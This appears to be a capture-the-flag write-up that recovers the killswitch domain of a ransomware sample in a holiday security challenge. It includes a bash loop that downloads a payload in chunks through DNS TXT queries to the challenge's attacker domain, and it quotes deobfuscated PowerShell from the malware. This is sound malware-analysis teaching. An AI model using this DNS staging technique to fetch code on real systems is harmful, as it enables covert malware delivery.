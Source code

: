 The third challenge, titled **Stop the Malware**, tasks us with determining the [killswitch domain](https://www.wired.com/2017/05/accidental-kill-switch-slowed-fridays-massive-ransomware-attack/) for our sample, then [registering that domain](https://hohohodaddy.kringlecastle.com/index.html) to stop all future attacks by this malware.

First off, we're going to have to execute the dropper, in a controlled manner, in order to take a look at the payload. Given the previously linked CyberChef output, I generated the following bash script to emulate the same functionality, then input the hex characters from _output.txt_ into CyberChef, allowing me to view the payload.
```
iter_var=$(nslookup -type=txt 77616E6E61636F6F6B69652E6D696E2E707331.erohetfanu.com erohetfanu.com | awk '/".*"/ {print $4}' | sed 's/\"//g')
for i in `seq 0 $iter_var`;
do
    nslookup -type=txt "$i.77616E6E61636F6F6B69652E6D696E2E707331.erohetfanu.com" erohetfanu.com | awk '/".*"/ {print $4}' | sed 's/\"//g' >> output.txt;
done
```

This yielded a script with no whitespace, making it very hard to read. For my own well-being, I used [beautifier.io](https://beautifier.io/) to allow me to read the source code. Of interest was the first three lines in the entrypoint, _wanc_, which I expanded below for readability:
```
$S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000";
if ($null -ne(   (Resolve-DnsName -Name
            $(H2A
                $(B2H
                    $(ti_rox
                        $(B2H
                            $(G2B
                                $(H2B $S1)
                            )
                        )
                        $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com - Type TXT).Strings
                    )
                )
            ).ToString() -ErrorAction 0 - Server 8.8.8.8)
        )
    )

{_
    return
};
```
This conditional is most definitely a killswitch, as the sucessful resolution of a domain name results in the termination of execution. Now, all we have to do is work backwards until we get there.

First off, we convert the supplied string from hex to binary, then ungzip it, then convert it back to hex, yielding _1f0f0202171d020c0b09075604070a0a_, all courtesy of CyberChef.
Next, we should DNS lookup 6B696C6C737769746368.erohetfanu.com with the supplied parameters. This yields _66667272727869657268667865666B73_.
Now, we will bitwise XOR the two values we have thusfar, as that is all that the *ti_rox* function does. With that complete, we convert the result to hex, then ascii, which results in _yippeekiyaa.aaay_, our killswitch domain.
